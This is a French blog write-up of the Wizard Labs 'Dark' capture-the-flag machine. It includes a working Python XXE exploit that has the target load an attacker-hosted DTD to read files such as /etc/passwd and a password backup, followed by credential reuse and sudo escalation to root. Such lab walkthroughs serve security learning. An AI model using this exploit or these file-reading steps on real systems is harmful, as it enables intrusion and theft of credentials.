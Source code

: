 # Solution du CTF Dark de Wizard-Labs

Vader
-----

*Dark* est une machine Linux proposée sur [Wizard Labs](https://labs.wizard-security.net/) avec une difficulté donnée à 4/10.  

La machine fait tourner un serveur web avec un formulaire de contact en index :  

![Wizard-Labs Dark CTF index page XXE](https://github.com/devl00p/blog/raw/master/images/wizard-labs/dark_index.png)

En regardant le code source de la page on voit que les données sont soumises via Ajax au format XML :  

```javascript
function XMLFunction(){
    var xml = '' +
        '<?xml version="1.0" encoding="UTF-8"?>' +
        '<root>' +
        '<name>' + $('#name').val() + '</name>' +
        '<tel>' + $('#tel').val() + '</tel>' +
        '<email>' + $('#email').val() + '</email>' +
        '<password>' + $('#password').val() + '</password>' +
        '</root>';
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function () {
        if(xmlhttp.readyState == 4){
            console.log(xmlhttp.readyState);
            console.log(xmlhttp.responseText);
            document.getElementById('errorMessage').innerHTML = xmlhttp.responseText;

        }
    }
    xmlhttp.open("POST","process.php",true);
    xmlhttp.send(xml);
}
```

Et qui dit XML... dit potentiellement [XXE](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) (surtout sur un CTF évidemment).  

Exploiter des failles de ce type nécessite plus de préparatifs que d'autres failles (inclusion, injection de commandes, etc) alors on se remonte les manches et c'est parti !  

&XXE;
-----

Quand on soumet des données quelconques à ce formulaire on obtient un message d'erreur en retour :  

> Sorry, yolo@nawak.tld is already registered!

On va donc placer nos injections XXE dans le champ correspondant à l'adresse email afin d'exfiltrer les données.  

J'ai repris mon exploit écrit pour le [CTF DevOops de HackTheBox](http://devloop.users.sourceforge.net/index.php?article179/solution-du-ctf-devoops-de-hackthebox) et l'ai adapté pour que le format du XML et sa DTD correspondent aux données attendues.  

```python
import sys

import requests
from requests.exceptions import RequestException
from netifaces import ifaddresses

if len(sys.argv) < 2:
    print("Usage: python {} filename".format(sys.argv[0]))
    exit()

my_ip = ifaddresses("tun0")[2][0]["addr"]
filename = sys.argv[1]

xml = """<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root SYSTEM "http://{}/valid.dtd">
<root>
<name></name>
<tel></tel>
<email>&xxe;</email>
<password></password>
</root>""".format(my_ip)

dtd = """<?xml version="1.0" encoding="UTF-8" ?>
<!ELEMENT root (name, tel, email, password)>
<!ENTITY xxe SYSTEM "file://{}" >
<!ELEMENT name (#PCDATA)>
<!ELEMENT tel (#PCDATA)>
<!ELEMENT email (#PCDATA)>
<!ELEMENT password (#PCDATA)>""".format(filename)

with open("valid.dtd", "w") as fd:
    fd.write(dtd)

try:
    response = requests.post(
        "http://10.1.1.30/process.php",
        data=xml,
        headers={"content-type": "application/xml"}
    )

except RequestException as exception:
    print("Error occurred:", exception)
else:
    print(response.text)
```

On utilisera un serveur web quelconque (*python3 -m http.server* fait parfaitement l'affaire) pour héberger le fichier DTD qui est automatiquement modifié par l'exploit.  

On peut par exemple récupérer le fichier */etc/passwd*.  

```plain
$ python3 exploit.py /etc/passwd
Sorry, root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:106:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
landscape:x:104:110::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
dark:x:1000:1000:Dark Lord,,,:/home/dark:/bin/bash
dhcpd:x:106:114::/var/run:/bin/false
lord:x:1001:1001:,,,:/home/lord:/bin/bash
 is already registered
```

On peut voir deux utilisateurs sur le système : *dark* et *lord*.  

J'ai tenté de récupérer les clés privées SSH de ces utilisateurs mais soit le fichier n'est pas présent, soit les permissions ne permettent pas d'y accéder... Il est temps de fouiller un peu plus sur ce serveur web.  

```plain
/img (Status: 301)
/js (Status: 301)
/backup (Status: 301)
/process.php (Status: 200)
```

*Gobuster* rapporte un fichier *backup* qui contient juste le path */home/lord/password\_backup.txt*.  

Grace à notre exploit on peut dumper ce fichier qui contient le mot de passe SSH pour *lord* : *sunnysunshine!5*.  

G0t r00t
--------

On trouve dans le home de l'utilisateur le premier flag ainsi qu'une clé dont on ignore le but :  

```plain
lord@dark:~$ cat user.txt
d38f--- snip ---d422

lord@dark:~$ cat key
jdhauioh38qhdu
```

Toutefois en cherchant les fichiers de l'utilisateur *lord* (avec *find / -type f -user lord -not -path '/proc/\*' 2> /dev/null*) on trouve un binaire à un emplacement incongru :  

```plain
-rwx--x--x 1 lord lord 8664 Oct  6 12:16 /var/tmp/locker
```

Donnons lui ce qu'il demande :  

```plain
lord@dark:~$ /var/tmp/locker
Usage: <key>
lord@dark:~$ /var/tmp/locker jdhauioh38qhdu
Checking License: jdhauioh38qhdu
dark password = supereasypassword101if
```

Grace à ce mot de passe on peux devenir *dark* via *su*. Cet utilisateur fait partie du groupe *sudo*, voyons voir ce que l'on peut faire :  

```plain
dark@dark:~$ sudo -l
[sudo] password for dark:
Matching Defaults entries for dark on dark:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dark may run the following commands on dark:
    (ALL : ALL) ALL
dark@dark:~$ sudo su
root@dark:/home/dark# cat /root/root.txt
57e8--- snip ---632d3
```

Game over
---------

Toujours sympa ces petites failles XXE, pour le reste du très basique.  

Merci à *sahay* pour la box et [@h4d3sw0rm](https://twitter.com/h4d3sw0rm) pour *Wizard Labs*.

*Published November 17 2020 at 13 48*